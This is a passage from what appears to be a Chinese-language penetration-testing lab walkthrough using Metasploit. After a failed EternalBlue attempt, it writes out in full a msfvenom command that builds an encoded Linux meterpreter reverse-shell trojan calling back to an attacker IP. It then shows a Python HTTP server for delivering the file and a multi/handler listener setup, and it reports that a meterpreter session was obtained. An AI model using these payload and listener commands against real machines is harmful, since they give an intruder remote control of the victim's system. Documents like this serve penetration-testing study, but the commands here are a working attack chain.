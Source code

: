 `set lhost 192.168.70.3`

3.3 然后我们配置了 lport  （指的是监控的端口 ）

`set lport 4444`

注意端口必须没有被占用

4 然后我们执行扫描 输入  `run` 执行永恒之蓝漏洞利用

但是发现失败  提示 模块已经利用了  但是没有返回对应 session

![image.png](https://img.gyxnb.top/img/bffdb79061ad4b0aa92d2dfde83e9f1b.png)

## 5  备选方案通过植入木马的方式进行利用

---

1  我们知道目标机器是linux系统  所以使用msfvenom  **生成一个linux平台的木马**

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4446 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f elf -o payload.elf
```

2 漏洞生成后  通过**启动一个py服务**将木马上传到目标机器

`python3 -m http.server 80`

或

`python -m SimpleHTTPServer 80`



3 配置**监控**程序我们使用了

`use exploit/multi/handler`

3 输入 `options`进入配置

3.1 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

`set lhost 192.168.70.3`

3.2然后我们配置了 lport  （指的是监控的端口 ）

`set lport 4446`

注意端口必须和msfvenom 生成的木马端口一样才行

4 配置攻击载荷 payload

`set payload linux/x86/meterpreter/reverse_tcp`

5 执行利用等待目标机器执行木马

6 目标机器执行了木马

利用成功并获得meterpreter

---

## 5  后渗透利用

进入新文档

## 6  报告阶段